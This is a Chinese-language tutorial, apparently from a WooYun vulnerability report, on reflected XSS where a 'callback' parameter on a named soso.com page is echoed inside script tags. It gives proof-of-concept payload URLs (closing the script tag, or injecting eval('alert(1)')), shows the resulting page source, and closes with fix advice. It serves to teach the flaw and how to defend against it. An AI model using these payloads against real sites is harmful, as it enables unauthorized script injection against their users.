



# 2\. 输出在`<script></script>`之间的情况

> [2\. 输出在`<script></script>`之间的情况](http://www.wooyun.org/bugs/wooyun-2010-015959)

## 简要描述

接着上面一个教程，我们继续。这个例子属于第一例的特殊情况，当然也有特殊解法。也属于非常常见的一种情况。

## 详细说明

1\. 我们找到这么一个点，也是输入和输出都未过滤的一个点。相比教程第一例，其特殊之处在于，是输出在了 `<script>[输出]</script>` 之间。

```
http://activity.soso.com/common/setParentsInfo.php?callback=aaaaaaaaa 
```

如下图：callback 参数未做过滤。 在【查看源代码】下，我们可以看到。



缺陷网页源代码:

```
<script type='text/javascript'>document.domain='soso.com';_ret={"_res":2};try{parent.aaa(_ret);}catch(err){aaa(_ret);}</script> 
```

2\. 碰到这种情况，我们一般有以下解法。

2.1 首先判断，是否过滤了 `<` , `>` , `/` 等符号，



2.2 如果都没有过滤，恭喜你，一般可以直接 XSS 了。代码如下：

```
http://activity.soso.com/common/setParentsInfo.php?callback=aaaaaaaaa</script><script>alert(1)</script> 
```

原理入下图：

构造 callback 参数后的源代码

```
<script type='text/javascript'>document.domain='soso.com';_ret={"_res":2};try{parent.aaaaaaaaa</script><script>alert(1)</scri pt>(_ret);}catch(err){aaaaaaaaa</script><script>alert(1)</script>(_ret);}</script> 
```

2.3 如果过滤了 `<`, `>`，那么就无法使用上面的办法了。我们接着看

3\. script 代码里的构造。

友情提示：这里可能需要一点点 javascript 的知识才行哦～～ 我们可以如下构造：

```
http://activity.soso.com/common/setParentsInfo.php?callback=eval('alert(1)');void 
```

可以看到，源代码是下面的样子。



也就是说，我们插入的内容，使得这一段 javascript 依然【语法正确】，能够【正确执行】，并且能够执行【我们所插入的 JS 代码】，

这样我们的目的就达到了。 构造后的源代码如下：

```
<script type='text/javascript'>document.domain='soso.com';_ret={"_res":2};try{parent.eval('alert(1)');void(_ret);}catch(err){ eval('alert(1)');void(_ret);}</script> 
```

4\. 这种输出在 JS 代码里的情况十分常见，但是呢？不幸的是，像这样没过滤的情况，却不是很常见。例如： `var a="[输出]"; //` 通常程序员会把 " 过滤掉， 这样的话，一般来说，我们就很难构造。

但是，这并不是说，就一定是不能利用，后面我们会拿腾讯一些【比较有意思】的例子，来进一步说到 这个【输出在 js 里】的情况的～

## 修复方案

这类 XSS 的模型通常是：

```
<script>...[输出]...</script>
<style>...[输出]...</script> 
```

解决方案：

1\. 过滤 `</xxx>` 组合

2\. 针对输出在不同的场景，进行合适的过滤。